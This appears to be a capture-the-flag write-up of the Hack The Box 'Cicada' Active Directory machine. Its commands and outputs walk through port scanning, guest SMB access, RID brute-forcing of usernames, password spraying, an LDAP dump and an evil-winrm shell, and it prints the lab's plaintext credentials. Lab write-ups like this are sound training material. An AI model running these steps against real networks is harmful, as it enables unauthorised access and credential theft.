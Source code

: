 RECON
--
Started Of With Doing a Port Scan  
**nmap $ip -p- -T5 -Pn || rustscan --ulimit 5000 $ip -- -sC -sV -Pn**  
This Returned Me 

    |-53/tcp   open  domain        syn-ack Simple DNS Plus
    |-
    |-88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-09-29 11:34:33Z)
    |-
    |-135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
    |-
    |-139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
    |-
    |-389/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
    |-ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
    |-Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
    |-Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
    |-Public Key type: rsa
    |-Public Key bits: 2048
    |-Signature Algorithm: sha256WithRSAEncryption
    |-Not valid before: 2024-08-22T20:24:16
    |-Not valid after:  2025-08-22T20:24:16
    |-MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
    |-SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
    | 
    |-ssl-date: TLS randomness does not represent time
    | 
    |-445/tcp  open  microsoft-ds? syn-ack
    |
    |-464/tcp  open  kpasswd5?     syn-ack
    |
    |-593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
    |
    |-636/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
    |-ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
    |-Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
    |-Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
    |-Public Key type: rsa
    |-Public Key bits: 2048
    |-Signature Algorithm: sha256WithRSAEncryption
    |-Not valid before: 2024-08-22T20:24:16
    |-Not valid after:  2025-08-22T20:24:16
    |-MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
    |-SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
    |
    |-ssl-date: TLS randomness does not represent time
    |-3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
    |-ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
    |-Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
    |-Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
    |-Public Key type: rsa
    |-Public Key bits: 2048
    |-Signature Algorithm: sha256WithRSAEncryption
    |-Not valid before: 2024-08-22T20:24:16
    |-Not valid after:  2025-08-22T20:24:16
    |-MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
    |-SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
    |
    |-ssl-date: TLS randomness does not represent time
    |
    |-3269/tcp open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
    |-ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
    |-Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
    |-Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
    |-Public Key type: rsa
    |-Public Key bits: 2048
    |-Signature Algorithm: sha256WithRSAEncryption
    |-Not valid before: 2024-08-22T20:24:16
    |-Not valid after:  2025-08-22T20:24:16
    |-MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
    |-SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
    |
    |-ssl-date: TLS randomness does not represent time
    |Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
    |
    |-Host script results:
    |-p2p-conficker: 
    |---Checking for Conficker.C or higher...
    |---Check 1 (port 43674/tcp): CLEAN (Timeout)
    |---Check 2 (port 14644/tcp): CLEAN (Timeout)
    |---Check 3 (port 62917/udp): CLEAN (Timeout)
    |---Check 4 (port 13628/udp): CLEAN (Timeout)
    |---0/4 checks are positive: Host is CLEAN or ports are blocked
    |-smb2-security-mode: 
    |----3:1:1: 
    |-----Message signing enabled and required
    |-smb2-time: 
    |---date: 2024-09-29T11:35:22
    |---start_date: N/A
    |-clock-skew: 6h59m59s   

From the Output i could tell this was a Domain Controller inside an active directory enviroment  
There was no website which was weird too see for once  

So As Usual i prioritized SMB first so i did some digging into it  

**smbclient -L \\$ip\\**

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    DEV             Disk      
    HR              Disk      
    IPC$            IPC       Remote IPC
    NETLOGON        Disk      Logon server share 
    SYSVOL          Disk      Logon server share
Ouput Showed the usual windows shares but HR and DEV were interesting so i started digging more into them  

**smbmap -H $ip -u "guest" -p " "**

    ADMIN$          NO ACCESS       Remote Admin
    C$              NO ACCESS       Default share
    DEV             NO ACCESS
    HR              READ ONLY
    IPC$            READ ONLY       Remote IPC
    NETLOGON        NO ACCESS       Logon server share 
    SYSVOL          NO ACCESS       Logon server share 
i had access to HR through a NULL session, after connecting to it i find one file "Notice from HR.txt"  
Inside this i found a password "Cicada$M6Corpb*@Lp#nZp!8"

From Here i wasnt too sure what i could do since i had no usernames, so finding some usernames was my next goal  
so i tried using kerbrute using some seclists wordlists  

**kerbrute userenum --dc $ip -d cicada.htb <wordlist>**
this returned me nothing other then "administrator" and "guest" which i already knew

so i went to my notes on attacking AD and decided to try RID Brute Forcing with crackmapexec  
**crackmapexec smb $ip -u "guest" -p "" --rid-brute**

        [...snip]
        SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
        SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
        SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
        SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
        SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
        SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
        [...snip]

SHELL AS EMILY.CARLOS
---
and finally i had a list of usernames i could use  
now i can try some password spraying  

**crackmapexec smb $ip -u users.txt -p 'Cicada$M6Corpb\*@Lp#nZp!8' --continue-on-success**

        SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
        SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
        SMB         10.10.11.35     445    CICADA-DC        [YEP] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
        SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
        SMB         10.10.11.35     445    CICADA-DC        [YEP] cicada.htb\Dev:Cicada$M6Corpb*@Lp#nZp!8 
        SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 

Now i had a username to go with the Password, Dev and michael.wrightson  
tho i couldnt login to smb for whatever reason with the creds, i was stuck here for a while    
then finally i decided to try out the creds with ldap, and they worked!  

now i could of used LdapSearch but that would take a while to parse through and check out the data so i just used ldapdomaindump 
**ldapdomaindump $ip  -u "cicada.htb\michael.wrightson" -p 'Cicada$M6Corpb\*@Lp#nZp!8'**

from this it gave me a bunch of data, but i focused on the domain_users.html file which i hosted with python to view    
![image](https://github.com/user-attachments/assets/681402cc-012e-4276-a140-e114888b65bf)

and this gave me the password for the user "david.orelious"

        david.orelious : aRt$Lp#7t*VQ!3
these credentials worked with smb finally and allowed me to access the DEV share

inside the DEV share i found 1 file "Backup_script.ps1", inside this it had plaintext credentials

        emily.carlos : Q!3@Lp#M6b*7t*Vt
more fkn checks, smh  
but finally i got that sexy p3wned on crackmapexec for winrm  

so i finally got a shell using evil-winrm  
**evil-winrm -i $ip -u emily.carlos -p 'Q!3@Lp#M6b*7t*Vt'

